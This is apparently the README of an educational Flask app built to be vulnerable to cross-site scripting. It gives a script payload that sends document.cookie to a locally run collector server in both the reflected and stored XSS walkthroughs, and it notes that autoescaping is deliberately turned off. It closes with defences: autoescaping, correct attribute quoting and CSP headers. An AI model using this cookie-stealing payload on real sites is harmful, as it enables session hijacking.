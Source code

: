 # XSS-Demo (Extended)
Minimal, flask-powered python web app to demonstrate reflected and stored XSS attacks.
Less than 30 lines of Python + 40 lines HTML template.

![XSS Demo Screenshot](xss-demo-screenshot.png "XSS Demo Screenshot")

# Disclaimer

The current version is vulnerable to XSS.
This is meant for educational purposed only, please do not use it to attack websites.

# Quickstart

* Clone this repository.
* Create a [virtual environment](https://virtualenvwrapper.readthedocs.io/) (if you don't want to install `flask` in your global python environment) and 
  activate it.
* `pip install flask` to install flask in the virtual environment
* Run `flask run` in the vulnerable website folder
* Open [127.0.0.1:5000](http://127.0.0.1:5000/) in your webbrowser and have fun with XSS

As you started the flask app in development mode, any source changes should apply immediately so you can just refresh
the page. If you want to clear the database, just delete the `database.db` file that is (re-)created on first use.


# Demostrations of XSS
## Things to note BEFORE trying the demostration
* Go to [127.0.0.1:5000/cookie](http://127.0.0.1:5000/cookie) to create set a cookie for the main website
* Run `python app.py` in the malicious website folder to run the malicious server to collect the cookies

## Demostration for reflected XSS
* Key in `<script type='text/javascript'>document.location='http://127.0.0.1:1000/?c='+document.cookie;</script>` into the query blank
* Notice that the code is reflected inside the addressbar as a query.
* When the user clicks on the link containing the address, their cookies from the vulnerable website can be stolen

## Demostration for Stored XSS
### WARNING, this will spam ping the server as the page is loading
* Key in `<script type='text/javascript'>document.location='http://127.0.0.1:1000/?c='+document.cookie;</script>` into the comment blank
* Notice that the code is stored within the website
* When the user access the website, their cookies will automatically stolen until the comment is removed

As you started the flask app in development mode, any source changes should apply immediately so you can just refresh
the page. If you want to clear the database, just delete the `database.db` file that is (re-)created on first use.

## Demostration for DOM-Based XSS
* <b>Work in progress</b>

# Protection mechanisms

Of course you should never deactivate autoescaping in jinja/flask, so you should never have 
`{% autoescape false %}` in your production templates. 
<br>
This way you will always get the 
[standard HTML context filtering](https://flask.palletsprojects.com/en/1.1.x/templating/#controlling-autoescaping)
for variables in your templates.

The tooltip attack mentioned above can of course be avoided by using quotes correctly on 
[line 33 ](https://github.com/bgres/xss-demo/blob/master/templates/index.html#L33):
```html
      <div title="{{ comment }}">
```

You can also test using 
[Content Security Policy headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) to 
disallow unsafe inline javascript by replacing 
[`app.py` line 16-18](https://github.com/bgres/xss-demo/blob/master/app.py#L16-L18) with:

```python
    from flask import make_response
    r = make_response(render_template('index.html',
                      comments=comments,
                      search_query=search_query))
    r.headers.set('Content-Security-Policy', "script-src 'none'")
    return r
```


# Acknowledgements

This was forked from [bgres/xss-demo](https://github.com/bgres/xss-demo) 
<br>
The reflected server is made using a simple flask script